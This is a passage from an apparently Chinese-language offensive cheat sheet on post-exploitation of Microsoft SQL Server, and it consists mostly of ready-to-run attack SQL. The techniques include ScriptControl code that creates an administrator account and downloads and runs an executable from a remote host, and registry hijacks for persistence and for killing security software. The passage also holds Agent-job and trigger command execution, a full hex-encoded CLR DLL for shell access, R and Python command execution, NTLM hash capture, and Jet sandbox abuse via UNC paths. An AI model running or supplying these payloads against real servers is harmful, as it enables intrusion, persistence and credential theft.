exec sp_oamethod @ffffffff0x,'copyfile',null,'c:\windows\system32\sethc.exe','c:\windows\system32\dllcache\sethc.exe'
```

**ScriptControl COM 对象利用(未测试成功)**

- https://developpaper.com/introduction-of-msscriptcontrol-scriptcontrol-component-properties-methods-and-events/

ScriptControl 允许我们在 SQL Server 中实际运行脚本语言，例如 VBScript 或 JavaScript。
```sql
-- 使用 JavaScript 创建帐户、更改其密码并将新帐户添加到管理员组
declare @ffffffff0x int
EXEC sp_OACreate 'ScriptControl',@ffffffff0x OUT;
EXEC sp_OASetProperty @ffffffff0x, 'Language', 'JavaScript';
EXEC sp_OAMethod @ffffffff0x, 'Eval', NULL,
    'var o=new ActiveXObject("Shell.Users");
    z=o.create("testuser");
    z.changePassword("123456!@#","")
    z.setting("AccountType")=3;';

-- 0:"Guests"
-- 1:"Users"
-- 2:"Power Users"
-- 3:"Administrators"

-- 下载恶意软件
declare @ffffffff0x int
EXEC sp_OAcreate 'Scriptcontrol',@ffffffff0x OUT;
EXEC sp_OASetProperty @ffffffff0x, 'Language', 'JavaScript';
EXEC sp_OAMethod @ffffffff0x, 'Eval', NULL,
    'var x = new ActiveXObject("Microsoft.XMLHTTP");
    x.Open("GET","http://x.x.x.x:443/test.exe",0);
    x.Send();
    var s = new ActiveXObject("ADODB.Stream");
    s.Mode = 3;
    s.Type = 1;
    s.Open();
    S.Write(x.responseBody);
    s.SaveToFile("C:\\www\\test.exe",2);
    var r = new ActiveXObject("WScript.Shell");
    r.Run("C:\\www\\test.exe");';
```

**WMI COM 对象利用**

```sql
declare @objWmi int,@objLocator int,@objPermiss int,@objRet int,@objFull varchar(8000)
EXEC sp_OACreate 'WbemScripting.SWbemLocator.1',@objLocator OUTPUT;
EXEC sp_OAMethod @objLocator,'ConnectServer',@objWmi OUTPUT,'.','root\cimv2';
EXEC sp_OAMethod @objWmi,'Get',@objPermiss OUTPUT,'Win32_LogicalFileSecuritySetting.Path=''wscript.exe''';
EXEC sp_OAMethod @objWmi,'Get',@objFull OUTPUT, 'Win32_SecurityDescriptor';
EXEC sp_OASetProperty @objFull,'ControlFlags',4;
EXEC sp_OAMethod @objPermiss,'SetSecurityDescriptor',@objRet output,@objFull;
```

## xp_regwrite

利用条件
- xpstar.dll

**修改注册表来劫持粘贴键(映像劫持)**

利用regwrite函数修改注册表，起到劫持作用
```sql
exec master..xp_regwrite @rootkey='HKEY_LOCAL_MACHINE',@key='SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.EXE',@value_name='Debugger',@type='REG_SZ',@value='c:\windows\system32\cmd.exe'

-- 检查是否劫持成功
exec master..xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe','Debugger'
```


**将 COM 对象注册到 CLSID**

在进行 sp_oacreate 利用的时候就有使用 com 组件执行命令的方法
```sql
-- 使用其 CLSID '0D43FE01-F093-11CF-8940-00A0C9054228' 注册 'The File System Object component'
EXEC xp_regwrite N'HKEY_ CLASSES_ROOT',
N'CLSID\{0D43FE01-F093-11CF-8940-00A0C9054228}\', N'', REG_SZ, N'FileSystem Object';
EXEC xp_regwrite N'HKEY_CLASSES_ROOT',
N'CLSID\(0D43FE01-F093-11CF-8940-00A0C9054228}\InProcServer32', N'',
REG_SZ, N'%systemroot%\system32\scrrun.dll';
EXEC xp_regwrite N'HKEY_CLASSES_ROOT',
N'CLSID\{0D43FE01-F093-11CF-8940-00A0C9054228}\ProgID',N'',REG_SZ,
N'Scripting.FileSystemObject';
EXEC xp_regwrite N'HKEY_CLASSES_ROOT',
N'CLSID\{0D43FE01-F093-11CF-8940-00A0C9054228}\TypeLib',N'',REG_SZ,
N'{420B2830-E718-11CF-893D-00A0C9054228}';
EXEC xp_regwrite N'HKEY_CLASSES_ROOT',
N'CLSID\{0D43FE01-F093-11CF-8940-00A0C9054228}\Version',N'',REG_SZ,
N'1.0';
```

**CMD AutoRun**

当 CMD.exe（命令处理器）启动时，如果未指定 /D 标志，将执行 AutoRun 命令。

```sql
-- 将 CMD.exe 的 AutoRun 注册表项与软件可执行路径 (c:\windows\system32\calc.exe) 添加,作为持久化的后门
EXEC master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Command Processor','Autorun','REG_SZ','c:\windows\system32\calc.exe'
```




**Run & RunOnce**

Run 和 RunOnce 注册表项会导致程序在用户每次登录时运行。
```sql
-- 通过将带有可执行路径 (c:\windows\system32\calc.exe) 的 Aut3 条目添加到此注册表路径，攻击者确保每次用户登录服务器时都会执行恶意软件。
EXEC master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows\CurrentVersion\Run','Aut3','REG_SZ','c:\windows\system32\calc.exe'
```


注销，重新登录,触发 calc


**禁用指定软件**

攻击者需要确保在部署加密矿工时杀死反病毒进程以保持不被发现。所以可以设置在某些应用启动时自动关闭.

```sql
-- 禁用正在运行的进程的方法是使用 IFEO（Image File Execution Options），通过添加值为 taskkill 的调试器键，在这种情况下将杀死特定进程 Everything.exe：
EXEC master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Everything.exe','Debugger','REG_SZ','taskkill.exe'
```


此时只要开启 Everything 就会自动关闭.

## SQL Server Agent Job 代理执行计划任务利用

**描述**

SQL Server 代理是一项 Microsoft Windows 服务，它执行计划的管理任务，这些任务在 SQL Server 中称为作业。

利用条件
- 拥有 DBA 权限
- 需要 sqlserver 代理 (sqlagent) 开启，Express 版本Sql Server 是无法启用的

```sql
-- 开启 sqlagent 服务
exec master.dbo.xp_servicecontrol 'start','SQLSERVERAGENT';

-- 利用任务计划命令执行（无回显,可以 dnslog）
-- 创建任务 test，这里test为任务名称，并执行命令，命令执行后的结果，将返回给文本文档out.txt

use msdb;
exec sp_delete_job null,'test'
exec sp_add_job 'test'
exec sp_add_jobstep null,'test',null,'1','cmdexec','cmd /c "whoami>c:/out.txt"'
exec sp_add_jobserver null,'test',@@servername
exec sp_start_job 'test';
```

## CLR提权

**描述**

从 SQL Server 2005 (9.x) 开始，SQL Server 集成了用于 Microsoft Windows 的 .NET Framework 的公共语言运行时 (CLR) 组件。 这意味着现在可以使用任何 .NET Framework 语言（包括 Microsoft Visual Basic .NET 和 Microsoft Visual C#）来编写存储过程、触发器、用户定义类型、用户定义函数、用户定义聚合和流式表值函数。
- https://docs.microsoft.com/zh-cn/sql/relational-databases/clr-integration/common-language-runtime-clr-integration-programming-concepts?view=sql-server-ver15

CLR 方式可以利用 16 进制文件流方式导入 DLL 文件，不需要文件落地
- [MDUT 中的16进制的dll](https://github.com/SafeGroceryStore/MDUT/blob/main/MDAT-DEV/src/main/Plugins/Mssql/clr.txt)

dll的制作可以参考下面的文章
- https://xz.aliyun.com/t/10955#toc-12

利用条件
- 拥有DBA权限

```sql
-- 启用CLR,SQL Server 2017版本之前
sp_configure 'show advanced options',1;RECONFIGURE; -- 显示高级选项
sp_configure 'clr enabled',1;RECONFIGURE; -- 启用CLR
ALTER DATABASE master SET TRUSTWORTHY ON; -- 将存储.Net程序集的数据库配置为可信赖的

-- 启用CLR，SQL Server 2017版本及之后,引入了严格的安全性，可以选择根据提供的 SHA512 散列专门授予单个程序集的 UNSAFE 权限
sp_configure 'show advanced options',1;RECONFIGURE;
sp_configure 'clr enabled',1;RECONFIGURE;
sp_add_trusted_assembly @hash= <SHA512 of DLL>; -- 将某程序集的SHA512哈希值添加到可信程序集列表中

-- 配置 EXTERNAL ACCESS ASSEMBLY 权限, test 是我指定的数据库
EXEC sp_changedbowner 'sa'
ALTER DATABASE [test] SET trustworthy ON

-- 导入CLR插件
CREATE ASSEMBLY [mssql_CLR]
  AUTHORIZATION [dbo]
  FROM 0x4D5A90000300000004000000FFFF0000B800000000000000400000000000000000000000000000000000000000000000000000000000000000000000800000000E1FBA0E00B409CD21B8014CCD21546869732070726F6772616D2063616E6E6F742062652072756E20696E20444F53206D6F64652E0D0D0A2400000000000000504500004C010300660705620000000000000000E00022200B013000000E00000006000000000000522C0000002000000040000000000010002000000002000004000000000000000400000000000000008000000002000000000000030040850000100000100000000010000010000000000000100000000000000000000000002C00004F00000000400000A802000000000000000000000000000000000000006000000C000000C82A00001C0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000200000080000000000000000000000082000004800000000000000000000002E74657874000000580C000000200000000E000000020000000000000000000000000000200000602E72737263000000A8020000004000000004000000100000000000000000000000000000400000402E72656C6F6300000C0000000060000000020000001400000000000000000000000000004000004200000000000000000000000000000000342C00000000000048000000020005007C2200004C0800000100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000CA00280600000A72010000706F0700000A00280600000A7243000070725300007002280800000A28020000066F0700000A002A001B300600BC0100000100001173040000060A00730900000A0B076F0A00000A026F0B00000A0003280C00000A16FE010D092C0F00076F0A00000A036F0D00000A0000076F0A00000A176F0E00000A00076F0A00000A176F0F00000A00076F0A00000A166F1000000A00076F0A00000A176F1100000A00076F0A00000A176F1200000A0006731300000A7D010000040706FE0605000006731400000A6F1500000A00140C00076F1600000A26076F1700000A00076F1800000A6F1900000A0C076F1A00000A0000DE18130400280600000A11046F1B00000A6F0700000A0000DE00076F1C00000A16FE01130511052C1D00280600000A067B010000046F1D00000A6F0700000A000038AA00000000731300000A130608280C00000A16FE01130711072C0B001106086F1E00000A2600067B010000046F1F00000A16FE03130811082C22001106725D0000706F1E00000A261106067B010000046F1D00000A6F1E00000A2600280600000A1C8D0E000001251602A2251703A225187275000070A22519076F1C00000A13091209282000000AA2251A72AD000070A2251B1106252D0426142B056F1D00000AA2282100000A6F0700000A0000067B010000046F1D00000A130A2B00110A2A011000000000970025BC0018080000012202282200000A002A4E027B01000004046F2300000A6F1E00000A262A00000042534A4201000100000000000C00000076342E302E33303331390000000005006C000000A8020000237E000014030000B403000023537472696E677300000000C8060000B4000000235553007C0700001000000023475549440000008C070000C000000023426C6F620000000000000002000001571502000902000000FA0133001600000100000014000000030000000100000005000000050000002300000005000000010000000100000003000000010000000000D60101000000000006007001BA0206009001BA0206004601A7020F00DA02000006003C03E4010A005A015A020E001503A7020600EB01E40106002C027A0306002B01BA020E00FA02A7020A0086035A020A0023015A020600C401E4010E000302A7020E00D200A7020E004102A70206001402360006002102360006002700E401000000002D00000000000100010001001000E9020000150001000100030110000100000015000100040006007003790050200000000096008D007D000100842000000000960099001A0002005C22000000008618A102060004005C22000000008618A102060004006522000000008300160082000400000001007F0000000100F200000002002B03000001003A020000020010030900A10201001100A10206001900A1020A003100A10206005100A102060061001A0110006900A4001500710035031A003900A10206003900F50132007900E50015007100A403370079001D031500790091033C007900C20041007900AE013C00790087023C00790055033C004900A10206008900A1024700390068004D0039004F0353003900FB000600390075025700990083005C003900430306004100B6005C003900A90060002900C2015C0049000F0164004900CB016000A100C2015C00710035036A002900A1020600590056005C0020002300BA002E000B0089002E00130092002E001B00B10063002B00BA0020000480000000000000000000000000000000004000000004000000000000000000000070005F000000000004000000000000000000000070004A00000000000400000000000000000000007000E40100000000030002000000003C3E635F5F446973706C6179436C617373315F30003C52756E436F6D6D616E643E625F5F3000496E743332003C4D6F64756C653E0053797374656D2E494F006D7373716C5F434C520053797374656D2E44617461006765745F44617461006D73636F726C6962006164645F4F757470757444617461526563656976656400636D640052656164546F456E640045786563436F6D6D616E640052756E436F6D6D616E640053656E64006765745F45786974436F6465006765745F4D657373616765007365745F57696E646F775374796C650050726F6365737357696E646F775374796C65007365745F46696C654E616D650066696C656E616D6500426567696E4F7574707574526561644C696E6500417070656E644C696E65006765745F506970650053716C5069706500436F6D70696C657247656E6572617465644174747269627574650044656275676761626C654174747269627574650053716C50726F63656475726541747472696275746500436F6D70696C6174696F6E52656C61786174696F6E734174747269627574650052756E74696D65436F6D7061746962696C697479417474726962757465007365745F5573655368656C6C4578656375746500546F537472696E67006765745F4C656E677468006D7373716C5F434C522E646C6C0053797374656D00457863657074696F6E006765745F5374617274496E666F0050726F636573735374617274496E666F0053747265616D526561646572005465787452656164657200537472696E674275696C6465720073656E646572004461746152656365697665644576656E7448616E646C6572004D6963726F736F66742E53716C5365727665722E536572766572006765745F5374616E646172644572726F72007365745F52656469726563745374616E646172644572726F72002E63746F720053797374656D2E446961676E6F73746963730053797374656D2E52756E74696D652E436F6D70696C6572536572766963657300446562756767696E674D6F6465730053746F72656450726F63656475726573004461746152656365697665644576656E744172677300617267730050726F63657373007365745F417267756D656E747300617267756D656E747300436F6E636174004F626A6563740057616974466F7245786974005374617274007365745F52656469726563745374616E646172644F7574707574007374644F75747075740053797374656D2E546578740053716C436F6E74657874007365745F4372656174654E6F57696E646F770049734E756C6C4F72456D707479000000004143006F006D006D0061006E0064002000690073002000720075006E006E0069006E0067002C00200070006C006500610073006500200077006100690074002E00000F63006D0064002E00650078006500000920002F0063002000001753007400640020006F00750074007000750074003A0000372000660069006E00690073006800650064002000770069007400680020006500780069007400200063006F006400650020003D00200000053A00200000005E54E0227F5F5E409B9302C5EA5F62E7000420010108032000010520010111110400001235042001010E0500020E0E0E11070B120C121D0E0212210212250202080E042000123D040001020E0420010102052001011141052002011C180520010112450320000204200012490320000E0320000805200112250E0500010E1D0E08B77A5C561934E08903061225040001010E062002011C122D0801000800000000001E01000100540216577261704E6F6E457863657074696F6E5468726F777301080100070100000000040100000000000000006607056200000000020000001C010000E42A0000E40C000052534453F12CF9670467FE4789AA4C0BB3C9132401000000433A5C55736572735C546573745C736F757263655C7265706F735C6D7373716C5F434C525C6D7373716C5F434C525C6F626A5C44656275675C6D7373716C5F434C522E70646200000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000282C00000000000000000000422C0000002000000000000000000000000000000000000000000000342C0000000000000000000000005F436F72446C6C4D61696E006D73636F7265652E646C6C0000000000FF250020001000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001001000000018000080000000000000000000000000000001000100000030000080000000000000000000000000000001000000000048000000584000004C02000000000000000000004C0234000000560053005F00560045005200530049004F004E005F0049004E0046004F0000000000BD04EFFE00000100000000000000000000000000000000003F000000000000000400000002000000000000000000000000000000440000000100560061007200460069006C00650049006E0066006F00000000002400040000005400720061006E0073006C006100740069006F006E00000000000000B004AC010000010053007400720069006E006700460069006C00650049006E0066006F0000008801000001003000300030003000300034006200300000002C0002000100460069006C0065004400650073006300720069007000740069006F006E000000000020000000300008000100460069006C006500560065007200730069006F006E000000000030002E0030002E0030002E00300000003C000E00010049006E007400650072006E0061006C004E0061006D00650000006D007300730071006C005F0043004C0052002E0064006C006C0000002800020001004C006500670061006C0043006F00700079007200690067006800740000002000000044000E0001004F0072006900670069006E0061006C00460069006C0065006E0061006D00650000006D007300730071006C005F0043004C0052002E0064006C006C000000340008000100500072006F006400750063007400560065007200730069006F006E00000030002E0030002E0030002E003000000038000800010041007300730065006D0062006C0079002000560065007200730069006F006E00000030002E0030002E0030002E0030000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000002000000C000000543C00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
  WITH PERMISSION_SET = UNSAFE;
GO

-- 创建CLR函数
CREATE PROCEDURE [dbo].[ExecCommand]
@cmd NVARCHAR (MAX)
AS EXTERNAL NAME [mssql_CLR].[StoredProcedures].[ExecCommand]
go

-- 利用CLR执行系统命令
exec dbo.ExecCommand "whoami /all";
```



格式简化
```sql
-- 导入CLR插件
CREATE ASSEMBLY [clrdata]
AUTHORIZATION [dbo]
FROM 0x16进制的dll
WITH PERMISSION_SET = UNSAFE;

-- 创建CLR函数
CREATE PROCEDURE [dbo].[testclrexec]
@method NVARCHAR (MAX) , @arguments NVARCHAR (MAX)
AS EXTERNAL NAME [clrdata].[StoredProcedures].[testclrexec]

-- 利用CLR执行系统命令
exec testclrexec 'cmdexec',N'whoami'
```

## 利用触发器

触发器是一种特殊类型的存储过程，它不同于存储过程。触发器主要是通过事件进行触发被自动调用执行的。而存储过程可以通过存储过程的名称被调用。

SqlServer 包括三种常规类型的触发器：DML 触发器、DDL 触发器和登录触发器

**登录触发器**

登录触发器将为响应 LOGIN 事件而激发存储过程。与 SQL Server 实例建立用户会话时将引发此事件。登录触发器将在登录的身份验证阶段完成之后且用户会话实际建立之前激发。因此，来自触发器内部且通常将到达用户的所有消息(例如错误消息和来自 PRINT 语句的消息)会传送到 SQL Server 错误日志。如果身份验证失败，将不激发登录触发器。

```sql
-- 设置一个触发器 ffffffff0x,当 user 表更新时触发命令
set ANSI_NULLS on
go
set QUOTED_IDENTIFIER on
go
create trigger [ffffffff0x]
on [user]
AFTER UPDATE as
begin
    execute master..xp_cmdshell 'cmd.exe /c calc.exe'
end
go

-- user 表 update 更新时，自动触发
UPDATE user SET id = '22' WHERE nickname = 'f0x'
```

实际测试，可以看到执行命令卡住了,一直没有结束



查看任务管理器，calc 运行了


手动将 calc 结束,此时语句执行完毕返回结果，执行时间等于 calc 运行的时间


## SQL Server R 和 Python 的利用

**描述**

在 SQL Server 2017 及更高版本中，R 与 Python 一起随附在机器学习服务中。该服务允许通过 SQL Server 中 sp_execute_external_script 执行 Python 和 R 脚本

利用条件：
- Machine Learning Services 必须要在 Python 安装过程中选择

必须启用外部脚本
- EXEC sp_configure 'external scripts enabled', 1
- RECONFIGURE WITH OVERRIDE
- 重新启动数据库服务器
- 用户拥有执行任何外部脚本权限

**R 脚本利用**

```sql
-- 利用 R 执行命令
sp_configure 'external scripts enabled'
GO
EXEC sp_execute_external_script
@language=N'R',
@script=N'OutputDataSet <- data.frame(system("cmd.exe /c dir",intern=T))'
WITH RESULT SETS (([cmd_out] text));
GO

-- 利用 R 抓取 Net-NTLM 哈希
@script=N'.libPaths("\\\\testhost\\foo\\bar");library("0mgh4x")'
```

**Python 脚本利用**

```sql
-- 查看版本
exec sp_execute_external_script
@language =N'Python',
@script=N'import sys
OutputDataSet = pandas.DataFrame([sys.version])'
WITH RESULT SETS ((python_version nvarchar(max)))

-- 利用 Python 读文件
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'

-- 利用 Python 执行命令
exec sp_execute_external_script
@language =N'Python',
@script=N'import subprocess
p = subprocess.Popen("cmd.exe /c whoami", stdout=subprocess.PIPE)
OutputDataSet = pandas.DataFrame([str(p.stdout.read(), "utf-8")])'
WITH RESULT SETS (([cmd_out] nvarchar(max)))
```

## AD Hoc 分布式查询 & Microsoft OLE DB Provider for Microsoft Jet (沙盒提权)

AD Hoc 分布式查询允许从多个异构数据源（例如 SQL Server 的多个实例）访问数据。这些数据源可以存储在相同或不同的计算机上。启用临时访问后，登录到该实例的任何用户都可以使用 OLE DB 提供程序通过 OPENROWSET 或 OPENDATASOURCE 函数执行引用网络上任何数据源的 SQL 语句。

攻击者滥用 Ad Hoc 分布式查询和 Microsoft OLE DB Provider for Microsoft Jet 来创建和执行旨在从远程服务器下载恶意可执行文件的脚本。

利用条件
- 拥有 DBA 权限
- sqlserver 服务权限为 system
- 服务器拥有 jet.oledb.4.0 驱动

```sql
-- 修改注册表，关闭沙盒模式
EXEC master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SoftWare\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0

-- 开启 Ad Hoc Distributed Queries
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
GO
EXEC sp_configure 'ad hoc distributed queries', 1
RECONFIGURE
GO
-- Until SQL Server 2012

EXEC sp_MSset_oledb_prop N'Microsoft.ACE.OLEDB.12.0', N'AllowInProcess', 1
EXEC master.dbo.sp_MSset_oledb_prop N'Microsoft.Jet.OLEDB.4.0', N'AllowInProcess', 1

-- SQL Server 2014 or later
EXEC sp_MSset_oledb_prop N'Microsoft.ACE.OLEDB.12.0', N'DynamicParameters', 1
EXEC master.dbo.sp_MSset_oledb_prop N'Microsoft.Jet.OLEDB.4.0', N'DynamicParameters', 1

-- Windows 2003 系统 c:\windows\system32\ias\ 目录下默认自带了 2 个 Access 数据库文件 ias.mdb/dnary.mdb, 所以直接调用即可.
-- Windows 2008 R2 默认无 Access 数据库文件, 需要自己上传, 或者用 UNC 路径加载文件方能执行命令.
-- SQL Server2008 默认未注册 microsoft.jet.oledb.4.0 接口, 所以无法利用沙盒模式执行系统命令.

Select * From OpenRowSet('microsoft.jet.oledb.4.0',';Database=c:\windows\system32\ias\ias.mdb',
'select shell("whoami")');

select * from openrowset('microsoft.jet.oledb.4.0',';database=\\192.168.1.8\file\ias.mdb','select shell("c:\windows\system32\cmd.exe /c net user >c:\test.txt ")');
```
